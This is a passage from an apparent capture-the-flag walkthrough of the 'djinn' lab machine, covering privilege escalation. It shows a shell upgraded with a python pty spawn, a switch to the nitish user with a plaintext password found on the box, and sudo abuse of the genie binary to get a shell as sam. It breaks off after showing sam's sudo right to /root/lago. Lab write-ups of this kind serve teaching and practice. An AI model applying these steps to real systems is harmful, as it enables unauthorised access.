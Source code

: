 ## Privilege Escalation
### Credentials Disclosure

Then I switch to the nitish user with the found credentials.

```console
www-data@djinn:/home/nitish/.dev$ su nitish 
su: must be run from a terminal
www-data@djinn:/home/nitish/.dev$ python -c 'import pty;pty.spawn("/bin/bash")'
<.dev$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@djinn:/home/nitish/.dev$ su nitish
Password: p4ssw0rdStr3r0n9

nitish@djinn:~/.dev$ id
uid=1001(nitish) gid=1001(nitish) groups=1001(nitish)
```

### Sudo Permissions

By listing the sudo permissions, the nitish user can execute the genie binary with sudo as the sam user.

```console
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
```

To escalate to the **sam** user and get a shell I used the following instruction.

```console
nitish@djinn:~$ sudo -u sam /usr/bin/genie -g god -e id -cmd
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ whoami
sam
$ bash
sam@djinn:~$ 
```

Enumerating for sudo permissions I found that the sam user can run the **lago** binary as the root user.

```console
sam@djinn:~$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
```
